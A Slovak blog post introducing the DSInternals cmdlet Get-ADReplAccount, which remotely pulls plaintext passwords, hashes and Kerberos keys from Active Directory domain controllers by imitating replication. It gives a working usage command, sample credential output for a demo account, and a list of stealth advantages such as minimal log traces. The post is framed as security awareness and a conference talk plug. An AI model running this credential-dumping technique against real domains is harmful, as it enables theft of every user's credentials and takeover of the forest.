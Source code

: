 ```yaml
---
id: 4161
title: 'Vykrádanie hesiel z&nbsp;Active Directory na&nbsp;diaľku'
date: 2015-08-03T20:35:52+00:00
layout: post
lang: sk
permalink: /sk/vykradanie-hesiel-z-active-directory-na-dialku/
---
```

<p style="text-align: justify;">
  Predstavujem Vám príkaz <b>Get-ADReplAccount</b>, najnovší prírastok do&nbsp;môjho <a href="https://www.dsinternals.com/sk/na-stiahnutie/">PowerShell modulu DSInternals</a>, ktorý umožňuje z doménových kontrolérov na&nbsp;diaľku získať plaintextové heslá, hashe hesiel a Kerberos kľúče všetkých používateľov. Toho dosahuje tým, že&nbsp;simuluje chovanie príkazu <strong>dcromo</strong> a&nbsp;cez&nbsp;protokol <a href="https://msdn.microsoft.com/en-us/library/cc228086.aspx">MS-DRSR</a> si&nbsp;vytvorí repliku všetkých dát v&nbsp;Active Directory databáze. Podľa mojich informácií sa&nbsp;jedná o&nbsp;jediný verejne dostupný nástroj svojho druhu na&nbsp;svete. Ďalej má tieto vlastnosti:
</p>

<li style="text-align: justify;">
  Ku svojej činnosti nevyžaduje ani práva doménového správcu. Bohate si&nbsp;vystačí s&nbsp;oprávnením <strong>Replicating Directory Changes All</strong>, ktoré má napríklad DirSync, Cisco WAAS či&nbsp;zle nakonfigurovaný SharePoint.
</li>
<li style="text-align: justify;">
  Otvára dvere dokorán ďalším útokom, ako sú pass-the-hash, pass-the-ticket či&nbsp;PAC spoofing, pomocou ktorých je&nbsp;útočník schopný dostať pod&nbsp;kontrolu celý Active Directory forest. Takéto útoky zvláda napríklad nástroj <a href="http://blog.gentilkiwi.com/mimikatz">mimikatz</a>.
</li>
<li style="text-align: justify;">
  Nedá sa&nbsp;zablokovať pomocou firewallu, pretože by&nbsp;to&nbsp;obmedzilo základnú funkčnosť Active Directory.
</li>
<li style="text-align: justify;">
  V&nbsp;logoch na&nbsp;doménovom radiči zanecháva len&nbsp;minimálnu stopu, ktorú prehliadne väčšina bezpečnostných auditov.
</li>
<li style="text-align: justify;">
  Nezneužíva žiadnu bezpečnostnú zraniteľnosť, ktorá by&nbsp;sa&nbsp;dala jednoducho opraviť v&nbsp;rámci aktualizácie systému.
</li>
<li style="text-align: justify;">
  Jeho použitie nevyžaduje žiadne špeciálne vedomosti či&nbsp;prípravu. Útočníkovi stačí základná znalosť Active Directory.
</li>

Príklad použitia:

<pre class="lang:ps decode:true">Import-Module DSInternals
$cred = Get-Credential
Get-ADReplAccount -SamAccountName April -Domain Adatum -Server LON-DC1 `
-Credential $cred -Protocol TCP</pre>

Ukážkový výstup:

<pre class="nums:false lang:default highlight:0 decode:true">DistinguishedName: CN=April Reagan,OU=IT,DC=Adatum,DC=com
Sid: S-1-5-21-3180365339-800773672-3767752645-1375
Guid: 124ae098-699b-4450-a47a-314a29cc90ea
SamAccountName: April
SamAccountType: User
UserPrincipalName: April@adatum.com
PrimaryGroupId: 513
SidHistory: 
Enabled: True
Deleted: False
LastLogon: 
DisplayName: April Reagan
GivenName: April
Surname: Reagan
Description: 
NTHash: 92937945b518814341de3f726500d4ff
LMHash: 727e3576618fa1754a3b108f3fa6cb6d
NTHashHistory: 
  Hash 01: 92937945b518814341de3f726500d4ff
  Hash 02: 1d3da193d2f45911a6f0fa940b9fb32f
  Hash 03: 402bc59d8a00641b7f386e78596340f4
LMHashHistory: 
  Hash 01: 727e3576618fa1754a3b108f3fa6cb6d
  Hash 02: 5a5503d0e85f58abaad3b435b51404ee
  Hash 03: f9393d97e7a1873caad3b435b51404ee
SupplementalCredentials:
  ClearText: Pa$$w0rd
  Kerberos:
    Credentials:
      DES_CBC_MD5
        Key: 76fe3b5bda911a40
    OldCredentials:
      DES_CBC_MD5
        Key: 7f8c4f38e0ea0b80
    Salt: ADATUM.COMApril
    Flags: 0
  KerberosNew:
    Credentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 3a3b6a89bb82d112db5ef68f6db5d1afc2b806df61dcd85e3eacf3b85ee382d8
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: a72c8bc96c4a6f03244f0b0067a1e440
        Iterations: 4096
      DES_CBC_MD5
        Key: 76fe3b5bda911a40
        Iterations: 4096
    OldCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 14e46244a59a37cd8aa7c1fe61896441c7d065fafe4874191e69c1fe28856810
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: 034b512ec64286dec951d6aff8d81fa8
        Iterations: 4096
      DES_CBC_MD5
        Key: 7f8c4f38e0ea0b80
        Iterations: 4096
    OlderCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 2387ca8f936c8c154996809af8fee7c47fe4b9b5dd84d051fc43a9289bbaa3ab
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: 29d536ec057f9063747161429b81f056
        Iterations: 4096
      DES_CBC_MD5
        Key: 58f1cbe6e50e1f83
        Iterations: 4096
    ServiceCredentials:
    Salt: ADATUM.COMApril
    DefaultIterationCount: 4096
    Flags: 0
  WDigest:
    Hash 01: c3d012ab1101eb8f51b483fb4c5f8a7e
    Hash 02: c993da396914645b356ae7816251fcb1
    Hash 03: 6b58530cab34de91189a603e22c2be15
    Hash 04: c3d012ab1101eb8f51b483fb4c5f8a7e
    Hash 05: 5a762cf59fa31023dcba1ebd4725b443
    Hash 06: c78bac91c0ba25cae5d44460fd65a73b
    Hash 07: 59d73cea16afd1aac6bf8acfa2768621
    Hash 08: d2be383db9469a39736d9e2136054131
    Hash 09: 079de9f4d94d97a80f1726497dfd1cc2
    Hash 10: 85dbe1549d5fbfcc91f7fe5ac5910f52
    Hash 11: 961a36bded5535b8fc15b4b8e6c48b93
    Hash 12: 6ac8a60d83e9ae67c2097db716a6af17
    Hash 13: e899e577d5f81ef5288ab67de07fad9a
    Hash 14: 135452ab86d40c3d47ca849646d5e176
    Hash 15: a84c367eaa334d0a4cb98e36da011e0f
    Hash 16: 61a458eb70440b1a92639452f0c2c948
    Hash 17: 238f4059776c3575be534afb46be4ccf
    Hash 18: 03ddf370064c544e9c6dbb6ccbf8f4ac
    Hash 19: 354dd6c77ccf35f63e48cd5af6473ccf
    Hash 20: 5f9800d734ebe9fb588def6aaafc40b7
    Hash 21: 59aab99ebcddcbf13b96d75bb7a731e3
    Hash 22: f1685383b0c131035ae264ee5bd24a8d
    Hash 23: 3119e42886b01cad00347e72d0cee594
    Hash 24: ebef7f2c730e17ded8cba1ed20122602
    Hash 25: 7d99673c9895e0b9c484e430578ee78e
    Hash 26: e1e20982753c6a1140c1a8241b23b9ea
    Hash 27: e5ec1c63e0e549e49cda218bc3752051
    Hash 28: 26f2d85f7513d73dd93ab3afd2d90cf6
    Hash 29: 84010d657e6b58ce233fae2bd7644222</pre>

<p style="text-align: justify;">
  Potenciál tohoto útoku je&nbsp;teda veľký a&nbsp;mal by&nbsp;si&nbsp;toho byť minimálne vedomý každý manažér bezpečnosti a&nbsp;správca Active Directory.
</p>

<p style="text-align: justify;">
  Ak chcete tento aj&nbsp;ďalšie druhy hackerských útokov na&nbsp;AD vidieť naživo a&nbsp;dozvedieť sa, ako sa&nbsp;proti nim brániť, nenechajte si&nbsp;ujsť moju prednášku <a href="https://www.hackerfest.cz/prednasky/#offlineaonlineutokynaactivedirectorydatabazi">Offline a&nbsp;online útoky na&nbsp;Active Directory databázu</a> na&nbsp;tohtoročnom <a href="https://www.hackerfest.cz/">HackerFeste</a>. Ja sám sa&nbsp;teším na&nbsp;prednášky <a href="https://www.hackerfest.cz/prednasky/#nepratelenajednomsmetisti">Ondřeja Ševečka</a> a&nbsp;<a href="https://www.hackerfest.cz/speaker-lineup/william-ischanoe-2/">Williama Ischanoeho</a>. A&nbsp;pokiaľ si&nbsp;ma &#8220;odchytíte&#8221; medzi prednáškami, rád sa&nbsp;s&nbsp;Vami porozprávam pri kávičke, nielen o&nbsp;bezpečnosti Active Directory.
</p>